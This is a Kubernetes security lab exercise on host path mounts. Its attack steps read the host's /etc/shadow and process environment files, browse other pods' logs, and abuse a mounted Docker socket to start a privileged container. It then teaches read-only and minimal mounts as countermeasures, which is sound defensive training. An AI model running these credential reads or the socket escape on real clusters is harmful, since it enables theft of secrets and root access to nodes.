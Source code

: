 +++
categories = []
date = "2020-02-22"
description = ""
slug = ""
tags = []
title = "Read-only host mounts"
draft = false
toc = true
weight = 15
+++

### Introduction
In this exercise, we cover:

 - The risk of host mounts
 - How to use read-only mounts if they suffice

### Setup
In this example, we'll just directly use a shell inside the app.
Our example app will be a simulated monitoring agent mounting the same paths as the [Datadog DaemonSet](https://docs.datadoghq.com/agent/kubernetes/daemonset_setup/?tab=k8sfile):
```
volumeMounts:
  - {name: dockersocket, mountPath: /var/run/docker.sock}
  - {name: procdir, mountPath: /host/proc, readOnly: true}
  - {name: cgroups, mountPath: /host/sys/fs/cgroup, readOnly: true}
  - {name: s6-run, mountPath: /var/run/s6}
  - {name: logpodpath, mountPath: /var/log/pods}
  ## Docker runtime directory, replace this path with your container runtime
  ## logs directory, or remove this configuration if `/var/log/pods`
  ## is not a symlink to any other directory.
  - {name: logcontainerpath, mountPath: /var/lib/docker/containers}
```

We'll also mount `/etc` itself for extra fun.

Let's deploy our simulated agent:

```
kubectl apply -f https://securek8s.dev/agent/base.yaml
```

<!-- TODO: note that you read env vars with this mount, even if read-only. Also, the Docker socket—scream! -->

### Attack
With our power to execute commands, we'll see what types of files we
could modify, and what sorts of access they could provide.

Find a pod:
```
kubectl get po -n mounts
```

Then get into it:
```bash
kubectl exec -it -n mounts "$(kubectl get po -n mounts --output=jsonpath='{.items[0].metadata.name}')" -- bash
```

Now, try some host modifications and information gathering attempts:

```
touch /host/etc/flag
cat /host/etc/shadow
ls /host/proc/
cat /host/proc/*/cmdline
cat /host/proc/1/cmdline
ls -alh /host/proc/1/environ
```

Note that our host info is different from our container's:

```
cat /proc/1/cmdline
```

What else can you come up with?

Note that this deployment is extra-dangerous because it mounts the Docker socket.
That's a great way for your container to have effectively root privileges on the node.

First, let's install `curl` to download some more tools:

```
apt-get update
apt-get install -y curl
```

Next, let's install Docker and show the running containers on the host:

```bash
curl https://download.docker.com/linux/static/stable/x86_64/docker-19.03.6.tgz | tar xzv
./docker/docker ps
```

And let's use our access to launch a privileged container (more on this in [a later exercise](../65-privileged)):
```
./docker/docker run --rm -it --privileged ubuntu
```

This container has elevated access to the host.
You can do whatever you like, though your container still has its own file system and process namespaces, so it's not _precisely_ like being on the host.
We'll cover more about privileged containers in [a later exercise](../65-privileged).

Hit `ctrl-D` to exit once you've finished poking around.

Now you're back in the pod.

Let's use some of the other mounts in our simulated agent.
For instance, we could spy on other containers' logs:
```
ls /var/log/pods
```

Pick a pod you're interested in, then see what you can learn from the logs:

```
ls /var/log/pods/<your-pod-name>
... continue checking things out ...
```

Hit `Ctrl-D` to exit the pod.

### Countermeasure
We can:

 - Remove some mount paths our application doesn't need,
 - Mark some of our mounts read-only, and
 - Mount more specific paths,

depending on the access we actually need.

This can require a bit of application knowledge, so is often best done with the team that maintains or operates the app.

Let's see what our improved deployment changes (a few mounts removed, and one marked read-only):

```
kubectl diff -f https://securek8s.dev/agent/improved.yaml
```

Then let's deploy it:

```
kubectl apply -f https://securek8s.dev/agent/improved.yaml
```

Make sure the old pod has been deleted, and the new one is marked `Running`:
```
kubectl get po -n mounts
```

Then get into it:
```bash
kubectl exec -it -n mounts "$(kubectl get po -n mounts --output=jsonpath='{.items[0].metadata.name}')" -- bash
```

### Attack effects after patching
You can't mess with stuff if you can't write to it, or
find out information you can't read!

Note that the Docker socket [still **does** work](https://news.ycombinator.com/item?id=17983623) despite us mounting it read-only:

Install `curl`:

```
apt-get update
apt-get install -y curl
```

Download and use `docker`:

```bash
curl https://download.docker.com/linux/static/stable/x86_64/docker-19.03.6.tgz | tar xzv
./docker/docker ps
./docker/docker run --rm -it --privileged ubuntu
```

If we try some of the same manipulations we tried earlier, they'll fail.

Hit `Ctrl-D` to exit the pod when you're done.

### How to use it yourself
If you use an application that needs to know something about the host,
you might need to mount a host path.

You can minimize the risk that such mounts poses by:

 - marking them read-only, and
 - minimizing the mount surface to just what's required.

Note, when you're slimming down mounts: container runtimes will sometimes _create_ files on your host
if they do not exist, which can be a problem if you want to mount
a path that might not exist.
This is particularly annoying when you try to mount a specific file
and the runtime creates a directory.

### Next up
We'll pivot to network policies in the next exercise:

[**Network policies**](../20-netpol)
